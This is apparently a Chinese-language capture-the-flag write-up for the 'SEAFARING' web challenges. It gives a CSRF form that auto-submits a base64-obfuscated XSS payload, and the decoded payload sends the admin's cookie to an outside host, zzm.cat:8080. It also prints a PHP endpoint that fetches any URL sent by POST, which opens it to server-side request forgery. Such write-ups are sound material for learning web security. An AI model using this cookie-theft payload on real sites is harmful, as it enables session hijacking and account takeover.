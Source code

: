## SEAFARING1

xss+csrf+sql注入

https://xz.aliyun.com/t/3472#toc-2

robots.txt发现/admin/handle_message.php

post csrf token:

`token=<img src=1 onerror=alert(1)>`

payload:

```
<form method="post" action="http://seafaring.xctf.org.cn:9999/admin/handle_message.php">
<input name="token" value="<svg onload=document.write(atob('PHNjcmlwdD4KbG9jYXRpb249Imh0dHA6Ly96em0uY2F0OjgwODAvP2M9Iitlc2NhcGUoZG9jdW1lbnQuY29va2llKTsKPC9zY3JpcHQ+'))>">
</form>
<script>
document.forms[0].submit();
</script>
```

```
echo PHNjcmlwdD4KbG9jYXRpb249Imh0dHA6Ly96em0uY2F0OjgwODAvP2M9Iitlc2NhcGUoZG9jdW1lbnQuY29va2llKTsKPC9zY3JpcHQ+ | base64 -d
=>
<script>
location="http://zzm.cat:8080/?c="+escape(document.cookie);
</script>
```

可以获取admin的cookie。

sql注入，真复杂，下次遇到类似题目，趁早复现。

## SEAFARING2

load_file读取文件：

```
<?php 
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    $re = curl_exec($ch);
    curl_close($ch);
    return $re;
}
if(!empty($_POST['You_cann0t_guu3s_1t_1s2xs'])){
    $url = $_POST['You_cann0t_guu3s_1t_1s2xs'];
    curl($url);
}else{
    die("Hint: Just for web2! :)");
}
?>
```
